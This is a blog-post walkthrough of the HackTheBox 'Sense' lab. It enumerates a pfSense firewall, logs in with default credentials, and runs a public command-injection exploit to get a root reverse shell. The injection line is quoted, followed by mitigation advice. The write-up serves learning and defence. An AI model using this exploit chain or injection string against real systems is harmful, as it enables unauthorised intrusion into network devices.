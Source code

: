 ```yaml
---
layout: post
title: 'HackTheBox - Sense'
date: 2018-03-25
author: Casey Mullineaux
cover: '/images/htb/sense/htb-sense-01.png'
tags: hackthebox
---
```


This challenge demonstrates that it's not just servers that are vulnerable to attack. Firewalls and other internet facing appliances can also provide an avenue for an attacker to exploit and gain a foothold on your network.

# Hacking the box

1. [Enumeration](#enum)
2. [Exploitation](#exploit)
3. [Deconstructing the hack](#deconstruct)

# <a name="enum"></a>Enumeration
Starting with a basic nmap scan, I uncover a web server listening on port 80 and 443.

```bash
root@kali:~/htb/sense# nmap -sC -sV -oA nmap 10.10.10.60
Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-30 21:24 AEDT
Nmap scan report for 10.10.10.60
Host is up (0.36s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

I browse to the default site on port 80, and am redirected to a pfSense portal login on HTTPS.

![htb-sense-01](/images/htb/sense/htb-sense-01.png)

I try the default credentials (admin:pfsense) and a bunch of standard combinations (admin:admin etc), but no luck. It may seem simple, but you'd be surprised how often that works!

Continuing down the path of enumeration, I launch a file-based brute force attack at the target using Dirbuster. I specify common file extensions that have been known to store configuration information (`.txt`, `.log`, `.cfg`, `.xml`, `.php`), and I land a couple of hits. 

![htb-sense-02](/images/htb/sense/htb-sense-02.png)
 
The attack uncovers two text files that are worth looking into.

**changelog.txt**

```text
# Security Changelog  
### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Timeline
The remaining patches will be installed during the next maintenance window
```

Not a lot of useful information there, but it does imply that there may be a vulnerability that has not yet been patched.

**systemusers.txt**

```text
####Support ticket###
 
Please create the following user
 
username: Rohit
password: company defaults
```

From this file, I get a username and a hint as to what the password could be.

I browse back to the login portal and try this user with the default pfSense password **rohit:pfsense**

![htb-sense-03](/images/htb/sense/htb-sense-03.png)

---

# <a name="exploit"></a>Exploitation
I do a quick search using `searchsploit` for pfSense vulnerabilities. I ignore most of the results as they mostly provide user-based attacks, such as XXS or XRF. At this point, I'm only interested in the juicy exploits that allow remote code execution.

I decide to run with this exploit that provides an avenue for command injection.

![htb-sense-04](/images/htb/sense/htb-sense-04.png)

Reading through the exploit code and the [pfSense security advisory](https://www.pfsense.org/security/advisories/pfSense-SA-14_10.webgui.asc), I see that it takes advantage of a vulnerability in data validation that ultimately leads to remote code execution.

I fire up a netcat listener on port 1234 and fire off the exploit with the following command.
```bash
python3 ./43560.py --rhost 10.10.10.60 --lhost 10.10.14.157 --lport 1234 --username rohit --password pfsense
```

This drops me straight into a root shell.

![htb-sense-05](/images/htb/sense/htb-sense-05.png)

---
# <a name="deconstruct"></a>Deconstructing the hack

The key take away from this challenge is that we spend nearly all of our focus on protecting our servers from attackers and ensuring our compute infrastructure is safe, but how much time do you spend on your appliances? Where's your anti-virus or behavioural based analysis tools that monitor processes or strange activity on your firewalls? 

Many companies drop in a firewall and believe that's all they need to protect their environment from external threats. They believe that because they forked out thousands of dollars for a device that's designed to protect them, that once they drop it in, they are in fact protected. Whilst installing these security measures certainly helps to increase security posture, if not managed properly, the end result can be the opposite.

I think this false sense of security comes from the fact that these devices are marketed as *security products*, and with that, there is inherent trust placed into an expectation that the devices themselves are, and will remain, secure. The reality is that a lot of these products are just another Linux box running a web server at their core. As demonstrated in this blog post, this means that a lot of the same hacking techniques and vulnerabilities are applicable and the devices should be subject to the same scrutiny as other devices on your network. 

Gather and monitor logs. Look for unexpected logins, configuration changes and rogue processes. Anomalies in these areas may be the early indicators of a compromise.

## Vulnerability

The vulnerability exploited in this challenge is a lack of [data validation](https://www.owasp.org/index.php/Data_Validation).

In the exploit code I used, it takes the URL of the exploitable PHP page and manipulates the [untrusted data](https://www.owasp.org/index.php/Injection_Theory#Untrusted_Data) in the query string to trick the underlying system into executing additional commands.

Here's the relevant code from the exploit script.
```bash
https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh
```

Due to the lack of validation on the `database` parameter by the interpreter (PHP), it permits the execution of additional PHP functions. This is the same principle that is exploited in [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) attacks - the [number one highest risk vulneability](https://www.owasp.org/index.php/Top_10-2017_A1-Injection) on the internet today. 

In the code example above, a semi-colon (`;`) is added to the end of the query string. Without being escaped, PHP interprets this as the end of the current statement and any text after that is treated as an additional PHP statement. The `printf` function is then executed by PHP, and the malicious payload is passed to the function as a parameter. That, in turn, is then piped to the system binary `sh`, which results in the payload being executed on the system.

## Mitigation

In many cases, escaping system characters or encoding input has the potential to defuse attacks that rely on lack of input validation. This goes towards ensuring that user input is treated as a text string and is not interpreted as any kind of command or function.

However, simply preventing attacks is not enough - you must also perform Intrusion Detection in your applications. Otherwise, you are allowing attackers to repeatedly attack your application until they find a vulnerability that you haven't protected against. Detecting attempts to find these weaknesses is a critical protection mechanism.